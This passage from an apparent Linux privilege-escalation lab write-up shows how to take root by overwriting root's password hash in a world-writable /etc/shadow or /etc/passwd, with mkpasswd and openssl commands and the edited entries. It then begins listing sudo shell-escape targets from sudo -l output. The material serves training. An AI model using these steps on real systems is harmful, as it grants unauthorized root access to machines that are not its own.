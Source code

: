 
## Task 4 - Weak File Permissions - Writable /etc/shadow

The file `/etc/shadow` is writable, and it can be exploited by manually editing any password entry.
{% capture code %}{% raw %}-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a new encrypted `sha-512` password.
{% capture code %}{% raw %}mkpasswd -m sha-512 testpwd{% endraw %}{% endcapture %} {% include code.html code=code %}

Replace the existing entry for `root` user in `/etc/shadow`.
{% capture code %}{% raw %}root:$6$9TBP0gf1$ODrD17ec0Da0SpOamlBUKdBDkzwugq1tGeB5jFPuFa.2gziqndwMmUi6EKNQ/xwajz/leHfTtrpNvC2COiOlT0:17298:0:99999:7:::{% endraw %}{% endcapture %} {% include code.html code=code %}

Switch to `root` user using password `testpwd` to validate.


## Task 5 - Weak File Permissions - Writable /etc/passwd

The file `/etc/passwd` is writable, and it can be exploited by manually editing any entry.
{% capture code %}{% raw %}-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a new encrypted password.
{% capture code %}{% raw %}openssl passwd testpwd{% endraw %}{% endcapture %} {% include code.html code=code %}

Replace the entry `*` for user `root` in the file `/etc/passwd`.
{% capture code %}{% raw %}root:Cm47jzRd1DLZU:0:0:root:/root:/bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}

Switch to `root` user using password `testpwd` to validate.


## Task 6 - Sudo - Shell Escape Sequences

Use these links as references.
- [Gtfobins reference](https://gtfobins.github.io/){:target="_blank"}

Check the sudo capabilities using `sudo -l`.
{% capture code %}{% raw %}Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more{% endraw %}{% endcapture %} {% include code.html code=code %}
